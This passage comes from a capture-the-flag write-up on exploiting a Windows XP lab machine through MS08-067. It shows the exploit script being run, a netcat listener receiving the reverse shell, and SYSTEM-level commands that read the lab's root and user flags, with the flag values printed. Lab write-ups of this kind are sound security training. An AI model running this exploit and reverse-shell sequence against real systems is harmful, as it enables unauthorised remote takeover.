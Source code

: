 The exploit now works correctly after a reset.  As we have SYSTEM access, we can capture both `root` and `user` flags.

```
C:\WINDOWS\system32>type C:\"Documents and Settings"\Administrator\Desktop\root.txt
type C:\"Documents and Settings"\Administrator\Desktop\root.txt
993442d258b0e0ec917cae9e695d5713
C:\WINDOWS\system32>type C:\"Documents and Settings"\john\Desktop\user.txt
type C:\"Documents and Settings"\john\Desktop\user.txt
e69af0e4f443de7e36876fda4ec7644f
```

I also then decided to try the PoC exploit again. As expected, the PoC exploit also worked correctly after a reset.

```
$ python3 ms08_067_2018.py 10.10.10.4 6 445
<SNIP>

Windows XP SP3 English (NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish
```

```
$ nc -lnvp 6200
listening on [any] 6200 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.4] 1033
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

## Caveats

Oddly enough, after exiting the reverse shell created from the PoC exploit, the same errors appear if I try to run the same exploits again (from both `msfconsole` and through the PoC exploit).

I'm assuming that the PoC exploit somehow broke the SMB connection on the target, though I haven't really explored this further.

I'm not sure if its because the wrong OS version was used (I accidentally ran the exploit with OS option 1 instead of 6 afterwards), or because the PoC exploit itself breaks the system.
